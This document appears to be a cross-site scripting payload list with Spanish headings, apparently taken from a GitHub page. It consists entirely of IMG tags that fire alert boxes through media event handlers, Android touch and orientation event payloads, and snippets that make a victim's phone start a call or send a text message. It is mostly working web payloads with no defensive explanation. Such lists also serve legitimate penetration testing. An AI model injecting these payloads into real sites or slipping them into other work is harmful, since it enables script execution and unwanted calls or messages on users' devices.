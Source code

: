 ```
<IMG SRC=x oncanplaythrough="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x oncuechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ondurationchange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onemptied="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onended="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onerror="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onloadeddata="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onloadedmetadata="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onloadstart="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onpause="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onplay="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onplaying="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onprogress="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onratechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onseeked="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onseeking="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onstalled="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onsuspend="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ontimeupdate="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onvolumechange="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onwaiting="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x onshow="alert(String.fromCharCode(88,83,83))">
<IMG SRC=x ontoggle="alert(String.fromCharCode(88,83,83))">

```

# xss en android 

```
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
<svg onload=alert(navigator.connection.type)>

```

## xss en android para iniciar llamada y enviar mensajes de texto

```
onclick="window.location.href='tel:00000000000';"

window.open ("sms:[00000000000]?body=" + "mensaje","_system");

```





